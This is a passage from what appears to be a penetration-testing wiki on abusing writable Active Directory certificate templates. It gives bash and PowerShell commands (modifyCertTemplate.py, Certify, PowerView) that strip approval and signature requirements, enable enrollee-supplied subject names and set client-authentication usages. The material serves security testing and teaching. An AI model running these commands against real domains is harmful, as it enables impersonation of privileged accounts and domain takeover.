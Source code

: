 If a more precise template modification is needed, [modifyCertTemplate](https://github.com/fortalice/modifyCertTemplate) (Python) can be used to modify each attributes of the template.

```bash
# 1. Disable Manager Approval Requirement
modifyCertTemplate.py -template templateName -value 2 -property mspki-enrollment-flag "$DOMAIN/$USER:$PASSWORD"

# 2. Disable Authorized Signature Requirement
modifyCertTemplate.py -template templateName -value 0 -property mspki-ra-signature "$DOMAIN/$USER:$PASSWORD"

# 3. Enable SAN Specification
modifyCertTemplate.py -template templateName -add enrollee_supplies_subject -property "msPKI-Certificate-Name-Flag" "$DOMAIN/$USER:$PASSWORD"

# 4. Edit Certificate Application Policy Extension
modifyCertTemplate.py -template templateName -value "'1.3.6.1.5.5.7.3.2', '1.3.6.1.5.2.3.4'" -property "pKIExtendedKeyUsage" "$DOMAIN/$USER:$PASSWORD"
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate these sensitive access control entries. At the time of writing (October 21st, 2021) [BloodHound](../../recon/bloodhound.md) doesn't support (yet) enumeration of these access controls. [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) can be used to modify the template.

```powershell
# 1. Enumerate sensitive access control entries
Certify.exe find

# 2. Disable Manager Approval Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity tempalteName -XOR @{'mspki-enrollment-flag'=2} -Verbose

# 3. Disable Authorized Signature Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-ra-signature'=0} -Verbose

# 4. Enable SAN Specification
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -XOR @{'mspki-certificate-name-flag'=1} -Verbose

# 5. Edit Certificate Application Policy Extension
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose
```
{% endtab %}
{% endtabs %}
